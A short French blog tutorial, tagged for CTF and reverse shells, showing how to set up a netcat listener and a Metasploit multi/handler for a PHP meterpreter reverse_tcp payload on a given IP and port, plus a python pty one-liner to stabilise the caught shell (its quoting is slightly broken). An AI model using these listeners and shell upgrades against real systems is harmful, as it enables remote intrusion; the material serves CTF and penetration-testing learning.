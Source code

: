 ```yaml
---
layout: post
section-type: post
title: Se mettre sous écoute sur un port
category: exploitation web
tags: [ 'reverse_shell', 'web', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Dans cet article, je vous montre un simple usage de netcat et meterpreter. Pour aller plus loin, RTFM :p 

---------------------------------------------

#### Pré requis 
1-Avoir installer meterpreter pour la Méthode 2 <br/>

---------------------------------------------
#### Méthode 1: Utiliser netcat
  <pre><code data-trim class="yaml">
      #se mettre sous écoute sur le port 1234
      netcat -lvp 1234 
  </code></pre> <br/>
  
  NB: Il n’est pas nécessaire d’avoir les droits "root" pour mettre un port en écoute !
  
---------------------------------------------
#### Méthode 2: Utiliser meterpreter
  <pre><code data-trim class="yaml">
      #se mettre sous écoute sur le port 1234 et l'IP 10.23.201.17 en utilisant le payload php
      msfconsole
      use exploit/multi/handler
      set payload php/meterpreter/reverse_tcp
      set LHOST 10.23.201.17
      set LPORT 1234
      run
  </code></pre> <br/>
     
  NB: Il n’est pas nécessaire d’avoir les droits "root" pour mettre un port en écoute !
  
---------------------------------------------
 #### Aller plus loin
 <pre><code data-trim class="yaml">
    #Faire en sorte que le shell gère les entrées/sorties sans broncher ;)
    python -c 'import pty; pty.spawn('/bin/bash")' 
 </code></pre> <br/>
